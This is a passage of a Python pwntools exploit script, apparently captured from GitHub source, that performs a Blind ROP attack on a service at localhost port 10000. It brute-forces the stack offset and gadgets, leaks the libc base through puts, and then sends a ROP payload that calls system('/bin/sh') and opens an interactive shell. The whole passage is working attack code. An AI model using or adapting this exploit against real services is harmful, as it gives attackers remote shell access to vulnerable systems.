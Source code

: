 ```python
                file_ptr.close()
                return
        except Exception as e:
            exp_file.close()
            print(e)


def get_put_addr(exp_file, stack_offset, stop_gadget, pop_rdi_gadget, put_plt, put_got):
    exp_file.recvuntil("WelCome my friend,Do you know password?\n")
    exp_file.sendline("a" * stack_offset + p64(pop_rdi_gadget) + p64(put_got) + p64(put_plt) + p64(stop_gadget))
    print("[*] We try to test addr: {addr}".format(addr=hex(put_got)))
    try:
        put_addr = u64(exp_file.recvuntil('WelCome', timeout=1).split("\nWelCome")[0]+"\x00"*2)
        return put_addr
    except Exception as e:
        exp_file.close()
        print(e)


def main():
    libc_file = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    bin_sh_offset = 0x18cd57
    stack_offset = get_stack_offset()  # Blasting stack offset
    stop_gadget = get_stop_gadget(stack_offset)  # Blasting stop_gadget
    brop_gadget = get_brop_gadget(stack_offset, stop_gadget)  # Blasting brop gadget
    pop_rdi_gadget = brop_gadget + 9  # disasam("\x5f\xc3") > pop rdi;ret
    put_plt = get_puts_plt(stack_offset, stop_gadget, pop_rdi_gadget)  # Blasting put_plt
    dump_file_content(stack_offset, stop_gadget, pop_rdi_gadget, put_plt)  # dump the elf file contents (.text)
    # stop_gadget = 0x4005c0
    # brop_gadget = 0x4007ba
    # pop_rdi_gadget = brop_gadget + 9  # disasam("\x5f\xc3") > pop rdi;ret
    # put_plt = 0x400560
    put_got = 0x601018

    # leak base address of libc
    exp_file = remote("127.0.0.1", 10000)
    libc_addr = get_put_addr(exp_file, stack_offset, stop_gadget, pop_rdi_gadget, put_plt, put_got) - libc_file.symbols['puts']
    system_addr = libc_addr + libc_file.symbols['system']
    bin_sh_addr = libc_addr + bin_sh_offset
    log.info("libc_addr: {libc_addr}".format(libc_addr=hex(libc_addr)))

    # Trigger system("/bin/sh")
    payload = "a" * 72 + p64(pop_rdi_gadget) + p64(bin_sh_addr) + p64(system_addr) + p64(stop_gadget)
    exp_file.recvuntil("password?\n")
    exp_file.sendline(payload)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```
